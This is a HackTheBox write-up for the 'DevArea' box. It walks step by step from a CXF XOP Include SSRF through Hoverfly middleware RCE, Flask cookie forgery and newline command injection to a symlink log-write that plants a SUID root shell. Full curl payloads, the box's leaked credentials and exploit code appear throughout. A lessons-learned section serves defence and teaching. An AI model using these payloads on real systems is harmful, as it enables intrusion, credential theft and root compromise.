





# DevArea — HackTheBox Writeup

DevArea is a medium-difficulty Linux box that chains together an obscure SOAP SSRF vulnerability, middleware-based code execution in a proxy tool, and a subtle symlink/log-write primitive to escalate to root. Each stage peels back another layer of a developer infrastructure platform, and nearly every service on the box has a real-world analog you might encounter in a corporate environment.

---

## Overview

The attack path looks like this: exploit CVE-2022-46364 (Apache CXF MTOM/XOP SSRF) to exfiltrate credentials from the filesystem, use those credentials to achieve RCE through Hoverfly's middleware feature, pivot to a Flask-backed internal admin tool via session cookie forgery, abuse a command injection in that tool to write a symlink, and finally trigger a privileged log-write through a sudo-accessible script to plant a SUID binary.

Let's walk through it.

---

<div id="protected-marker"></div>

## Reconnaissance

### Port Scan



Six ports, and every single one matters. I added `devarea.htb` to `/etc/hosts` and started poking around.

**Port 21 — Anonymous FTP** drops us directly into a `pub/` directory containing `employee-service.jar`. Grab it immediately — this is the server-side code for the SOAP service running on 8080.

**Port 80** is a static "DevArea" developer hiring site. No forms, no functionality, nothing exploitable. Moving on.

**Port 8080** runs an Apache CXF SOAP service. Visiting `/employeeservice?wsdl` gives us the full WSDL, which describes a `submitReport` operation accepting `employeeName`, `department`, `content`, and `confidential` fields.

**Ports 8500 / 8888** are Hoverfly — a HTTP simulation and proxy tool written in Go. Both require authentication. I noted the version from response headers: Hoverfly v1.11.3.

I decompiled `employee-service.jar` with `jadx` to understand the SOAP service internals. The implementation is straightforward — pure string concatenation, no hidden logic. The interesting attack surface is in the *framework* it runs on, not the application code itself.

---

## Foothold

### Step 1: SSRF via Apache CXF MTOM/XOP (CVE-2022-46364)

Apache CXF 3.2.14 is vulnerable to server-side request forgery through MTOM (Message Transmission Optimization Mechanism) multipart requests. When a SOAP request includes an `XOP Include` element referencing an external URI, CXF fetches that URI server-side and embeds the content in the response — base64-encoded. This affects both `file://` and `http://` schemes.

This is related to CVE-2022-46364 (and the later CVE-2024-28752). The twist here is that the more obvious XXE path is blocked — CXF has DTD processing disabled — but the XOP Include in a multipart request bypasses those restrictions entirely.

The SSRF payload is a multipart HTTP body where the SOAP envelope contains the XOP Include element:

```bash
curl -s -X POST http://$TARGET:8080/employeeservice \
  -H 'Content-Type: multipart/related; type="application/xop+xml"; start="<root.message@cxf.apache.org>"; boundary="----=_Part_1"' \
  -d '------=_Part_1
Content-Type: application/xop+xml; charset=UTF-8; type="text/xml"
Content-Transfer-Encoding: 8bit
Content-ID: <root.message@cxf.apache.org>

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tns="http://devarea.htb/">
  <soap:Body>
    <tns:submitReport>
      <arg0>
        <confidential>false</confidential>
        <content><xop:Include xmlns:xop="http://www.w3.org/2004/08/xop/include" href="file:///etc/passwd"/></content>
        <department>IT</department>
        <employeeName>test</employeeName>
      </arg0>
    </tns:submitReport>
  </soap:Body>
</soap:Envelope>
------=_Part_1--'
```

The file content comes back base64-encoded inside the `<return>` element of the SOAP response. Pipe the relevant portion through `base64 -d` and you have local file read.

### Step 2: Extracting Credentials via SSRF

With arbitrary file read, the first place to look is systemd service files — they often contain credentials baked directly into `ExecStart` arguments. I read three key files:

- `file:///etc/systemd/system/hoverfly.service`
- `file:///etc/systemd/system/employee-service.service`
- `file:///etc/syswatch.env`



Two immediately useful things: Hoverfly admin credentials (`admin:O7IJ27MyyXiU`), and a Flask secret key for the SysWatch service. I also noticed that the `syswatch-web.service` runs on port 7777 as the `syswatch` user — and it's only bound to localhost, which is why it didn't show up in the initial scan.

Also worth noting: `InaccessiblePaths=/home/dev_ryan/user.txt` in the service file is the box author explicitly telling us we can't just read the flag through SSRF. Appreciated.

### Step 3: Hoverfly Middleware RCE

Authenticated to the Hoverfly admin API on port 8888. The Hoverfly dashboard lets administrators configure *middleware* — an external script that Hoverfly calls for every proxied request to transform it. The mechanism works like this:

1. Hoverfly writes the `script` field to a temp file (e.g., `/tmp/hoverfly/hoverfly_XXXX`)
2. Executes `/bin/bash <tempfile>`
3. Reads stdin/stdout to transform the request

This means any bash commands in the `script` field execute as whatever user runs the Hoverfly process — which is `dev_ryan`.

First, I switched Hoverfly from simulate mode to spy mode. In simulate mode, if a request doesn't match a recorded simulation, Hoverfly returns an error rather than forwarding it. Spy mode will forward unmatched requests to the real destination, which means our middleware actually gets called when we send a probe request through the proxy.

```bash
# Authenticate and get JWT
TOKEN=$(curl -s -X POST http://$TARGET:8888/api/v2/token-auth \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"O7IJ27MyyXiU"}' | jq -r .token)

# Switch to spy mode
curl -X PUT http://$TARGET:8888/api/v2/hoverfly/mode \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"mode":"spy"}'

# Set middleware to deploy our SSH public key
curl -X PUT http://$TARGET:8888/api/v2/hoverfly/middleware \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d "{\"binary\":\"/bin/bash\",\"script\":\"mkdir -p ~/.ssh && echo 'ssh-ed25519 AAAA...YOURKEY' >> ~/.ssh/authorized_keys\ncat\",\"remote\":\"\"}"

# Trigger middleware execution by proxying any request
curl --proxy "http://admin:O7IJ27MyyXiU@$TARGET:8500" "http://127.0.0.1:7777/"
```

The `cat` at the end of the script is required — Hoverfly's middleware protocol expects the script to read a JSON request from stdin and write it to stdout. Without it, Hoverfly will error out. Including `cat` passes the input straight through while our commands run.

After triggering, SSH in as `dev_ryan`:

```bash
ssh -i ~/.ssh/id_ed25519 dev_ryan@$TARGET
```

---

## Privilege Escalation

### Mapping the Sudo Rules

```bash
sudo -l
```



The `web-stop` and `web-restart` subcommands are blocked via sudo rules. Everything else in `syswatch.sh` is fair game as root.

### Understanding the SysWatch Platform

`dev_ryan`'s home directory contains `syswatch-v1.zip` — full source code for the SysWatch monitoring platform. Reading through it reveals the complete architecture:

- **`syswatch.sh`** — main management script, runs as root via sudo
- **`monitor.sh`** — executed by a systemd timer every 5 minutes as root; runs every `.sh` file in `/opt/syswatch/plugins/`
- **`app.py`** — Flask web GUI on port 7777, runs as the `syswatch` user
- **`common.sh`** — shared helper library; contains anti-symlink checks on log files... in some places

The `log_message()` function in `syswatch.sh` itself is the key weakness:

```bash
log_message() {
    local msg="$*"
    echo "$(date '+%F %T') - $msg" >> "$LOG_DIR/system.log"
}
```

No symlink check. It just appends to wherever `$LOG_DIR/system.log` points.

### Step 1: Flask Session Forgery

SysWatch's web GUI is only accessible from localhost. I can reach it by routing through the Hoverfly proxy (since Hoverfly's proxy has no IP restriction and the SSRF already demonstrated it can make internal HTTP requests). But I need a valid admin session cookie.

Flask signs session cookies using `itsdangerous`. With the secret key from `syswatch.env`, I can forge any session I want:

```python
from itsdangerous import URLSafeTimedSerializer

secret = "f3ac48a6006a13a37ab8da0ab0f2a3200d8b3640431efe440788beaefa236725"
s = URLSafeTimedSerializer(
    secret,
    salt='cookie-session',
    signer_kwargs={'key_derivation': 'hmac', 'digest_method': 'sha1'}
)
token = s.dumps({"user_id": 1, "is_admin": True})
print(token)
```

Set this as the `session` cookie when connecting to port 7777 through the Hoverfly proxy, and I'm in as admin.

Note: `SyswatchAdmin2026` from the env file did *not* work for the login form — likely the password is hashed differently in the database. The cookie forgery is the intended path.

### Step 2: Command Injection in `/service-status`

The SysWatch dashboard has a `/service-status` endpoint that checks the status of system services. Looking at the source:

```python
SAFE_SERVICE = re.compile(r"^[^;/\&.<>\rA-Z]*$")
res = subprocess.run([f"systemctl status --no-pager {service}"], shell=True, ...)
```

The regex blocks: `; / & . < > \r A-Z`

But it *allows*: `| $ ( ) \`` newlines, lowercase letters, digits, and backslash.

That's enough to get command execution. Newline injection separates commands from the `systemctl` call. Since `/` and `.` are blocked, I can't type paths directly — but `printf` with octal escapes gets around that. `/` is octal `\057`, `.` is `\056`:

```
ssh\nprintf '\057opt\057syswatch\057logs\057system\056log'
```

This runs `systemctl status --no-pager ssh`, then on the next line executes the `printf` command. I verified code execution as the `syswatch` user this way.

### Step 3: The Symlink Plant

Now I have two primitives:
1. **Command execution as `syswatch`** (via the service-status injection)
2. **`syswatch.sh` as root** (via sudo), which appends attacker-controlled content to `$LOG_DIR/system.log` without symlink checking

The plan: make `system.log` a symlink to a new file in the plugins directory. Then trigger `syswatch.sh` with extra arguments that become the payload — those args get passed to `log_message`, which writes them to the symlink target (our new plugin script). Wait for the 5-minute timer to execute all plugins as root.

**Step 3a: Create the symlink (as syswatch via command injection)**

```bash
rm -f /opt/syswatch/logs/system.log
ln -s /opt/syswatch/plugins/x.sh /opt/syswatch/logs/system.log
```

**Step 3b: Trigger the privileged log write (as dev_ryan via sudo)**

The `execute_plugin()` function in `syswatch.sh` calls:

```bash
log_message "Executing plugin: $plugin $*"
```

Where `$*` is all extra arguments passed to the script. So we can inject newlines there:

```bash
sudo /opt/syswatch/syswatch.sh plugin cpu_mem_monitor.sh $'\ncp /bin/bash /tmp/rootbash\nchmod +s /tmp/rootbash'
```

This causes `log_message` to write:



...directly into `/opt/syswatch/plugins/x.sh` via the symlink.

**Step 3c: Wait for the timer, then profit**

The `syswatch-monitor.timer` fires every 5 minutes. `monitor.sh` iterates over every `.sh` file in the plugins directory and executes them as root. The first line of `x.sh` (the timestamp) will error out as a command, but bash continues (no `set -e` in the script context). The `cp` and `chmod` lines execute successfully.

```bash
# After the timer fires:
/tmp/rootbash -p
```



---

## Lessons Learned

**Apache CXF MTOM/XOP SSRF** — CXF versions before 3.5.5 will fetch URLs referenced in XOP Include elements inside MTOM multipart requests, even when XXE via DTD is properly disabled. These are different attack surfaces and need separate defenses. When auditing CXF deployments, check the version and look for MTOM-enabled endpoints.

**Systemd service files as a credential store** — ExecStart arguments in service files are world-readable. Credentials passed as command-line flags to services (like Hoverfly's `-password` flag) are trivially exposed to anyone with filesystem read access. Use environment files with `EnvironmentFile=` and restrict permissions instead.

**Hoverfly middleware is RCE by design** — Authenticated access to the Hoverfly admin API with middleware configuration capability is equivalent to code execution. Treat it as such in threat models. Hoverfly's spy mode behavior (forward on no match) is also worth understanding — it's the mechanism that makes middleware triggerable here.

**Regex allowlists need to be exhaustive** — The `/service-status` filter blocked obvious injection characters but permitted newlines, pipes, and `$()`. When filtering for shell command injection, the only safe approach is a strict allowlist of known-safe characters (alphanumeric + specific safe symbols), combined with parameterized subprocess calls (`shell=False`).

**`printf` with octal escapes bypasses path filters** — `\057` for `/`, `\056` for `.`. Useful whenever you need to construct paths in contexts where those characters are filtered. I've used similar techniques in other command injection scenarios.

**Defense inconsistency is exploitable** — `common.sh` had symlink protection on log file operations. `syswatch.sh`'s own `log_message` did not. Partial defenses that aren't applied consistently across a codebase are often worse than no defense at all — they create a false sense of security while leaving gaps. A code audit should check that security controls are applied *everywhere* a pattern is used, not just in one helper function.

**Symlink + privileged append = arbitrary file write** — Any privileged process that appends to a path it doesn't exclusively control (via O_NOFOLLOW or similar) can be abused to write attacker-controlled content into arbitrary locations. The content doesn't need to be perfectly valid for the target format — as demonstrated here, a timestamp header as the first line of a shell script causes a benign error, while the payload lines still execute.
